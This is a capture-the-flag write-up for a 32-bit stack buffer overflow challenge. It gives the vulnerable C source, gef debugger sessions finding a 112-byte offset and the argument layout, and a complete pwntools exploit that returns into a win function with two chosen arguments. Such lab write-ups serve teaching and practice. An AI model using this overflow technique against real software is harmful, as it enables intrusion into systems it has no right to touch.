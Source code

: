 ## Description
Control the return address and arguments This time you'll need to control the arguments to the function you return to!

As always, let's take a look at the code first:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Here we must do something simmilar to the past challenge, but in this case, there are 2 arguments that we need to pass to the function 'win'. `arg1=0xCAFEF00D` and `arg2=0xF00DF00D`
So, let's first see the size of our input to overflow the stack buffer and overwrite the return address. Then we'll make the program return to 'win' with the specified arguments.

Let's set the breakpoint after the input reading, and see how the stack is at that point.
```
gef➤  b *vuln+34
Breakpoint 1 at 0x804935a
gef➤  r
Starting program: /home/mfumega/Documents/challenges/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
AAAABBBB

Breakpoint 1, 0x0804935a in vuln ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────── registers ───
$eax   : 0xffffce1c  →  "AAAABBBB"
$ebx   : 0x0804c000  →  0x0804bf10  →  0x00000001
$ecx   : 0xf7fa19c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffffce00  →  0xffffce1c  →  "AAAABBBB"
$ebp   : 0xffffce88  →  0xffffcea8  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffcf74  →  0xffffd14d  →  "/home/mfumega/Documents/challenges/vuln"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x0804935a  →  <vuln+0022> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffce00│+0x0000: 0xffffce1c  →  "AAAABBBB"    ← $esp
0xffffce04│+0x0004: 0x0000001a
0xffffce08│+0x0008: 0xf7fa0da0  →  0xfbad2887
0xffffce0c│+0x000c: 0x08049348  →  <vuln+0010> add ebx, 0x2cb8
0xffffce10│+0x0010: 0xf7fa0da0  →  0xfbad2887
0xffffce14│+0x0014: 0xf7fa0de7  →  0xfa19b40a
0xffffce18│+0x0018: 0x00000001
0xffffce1c│+0x001c: "AAAABBBB"
─────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ───
    0x8049351 <vuln+0019>      lea    eax, [ebp-0x6c]
    0x8049354 <vuln+001c>      push   eax
    0x8049355 <vuln+001d>      call   0x80490f0 <gets@plt>
 →  0x804935a <vuln+0022>      add    esp, 0x10
```
And here in the stack, we can see the input 'AAAABBBB' and we can see the return address pointing to main '0x080493dd'.

```
gef➤  x/50wx $esp
0xffffce00:     0xffffce1c      0x0000001a      0xf7fa0da0      0x08049348
0xffffce10:     0xf7fa0da0      0xf7fa0de7      0x00000001      0x41414141
0xffffce20:     0x42424242      0x00000000      0xf7df549d      0xf7f9ea60
0xffffce30:     0xf7fa0da0      0xf7fa0000      0xffffce78      0xf7de942b
0xffffce40:     0xf7fa0da0      0x0000000a      0x0000001a      0xf7e55801
0xffffce50:     0xf7d83e54      0x000007d4      0xf7fa0e3c      0x0000001a
0xffffce60:     0xffffcea8      0xf7fd9004      0x00000000      0x0804c000
0xffffce70:     0xffffcf74      0xf7ffcb80      0xffffcea8      0x080493d5
0xffffce80:     0x0804a063      0x0804c000      0xffffcea8      0x080493dd
0xffffce90:     0xffffced0      0xf7fbe66c      0xf7fbeb10      0x000003e8
0xffffcea0:     0xffffcec0      0xf7fa0000      0xf7ffd020      0xf7d97519
0xffffceb0:     0xffffd14d      0x00000070      0xf7ffd000      0xf7d97519
0xffffcec0:     0x00000001      0xffffcf74
gef➤
```

By calculating the offset as before, we know that our input should be 112 bytes until the return address. So if we input 112 'A' and 4 letters 'B', the program will attempt to jump to 0x42424242.

Let's replace that 4 'B' with the actual address of 'win'.
```
gef➤  print win
$1 = {<text variable, no debug info>} 0x8049296 <win>
gef➤
```
And now, we must call the win function, and pass the arguments we mentioned before. To do that, we'll just send the two arguments right aftet we jump to the function.

First let's run the program in debug mode with `p = gdb.debug(binary_path)`, so we can know where the actual values that 'arg1' and 'arg2' are, and their values.

These 2 are the lines that compare the arguments against the values we saw before:
```
 →  0x804930c <win+0076>       cmp    DWORD PTR [ebp+0x8], 0xcafef00d
    0x8049315 <win+007f>       cmp    DWORD PTR [ebp+0xc], 0xf00df00d
```

And we can check the values at [ebp+0x8] and [ebp+0xc], and they are: 
```
(remote) gef➤  x/x $ebp+0x8
0xffed3404:     0xf7faf66c
(remote) gef➤  x/x $ebp+0xc
0xffed3408:     0xf7fafb10
(remote) gef➤
```

We saw the values `0xf7faf66c` for arg1, and `0xf7fafb10` for arg2. We can use the same stack dump from before, and we'll find this 2 values starting at 0xffffce94 and 0xffffce98. 
So, we know that 4 bytes after the return address, are stored arg1 and arg2. 

Now we can build out final exploit with the complete payload like this:

```
#!/usr/bin/env python3
from pwn import *

#context.arch = 'amd64'
binary_path = '/tmp/here/vuln'
p = process(binary_path)
#p = gdb.debug(binary_path)
offset = 112

payload = b'A' * offset
payload += p32(0x8049296)
payload += b'A' * 4
payload += p32(0xcafef00d)
payload += p32(0xf00df00d)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

That's it for this challenge! If we do this against the remote connection, we'll get the flag! 



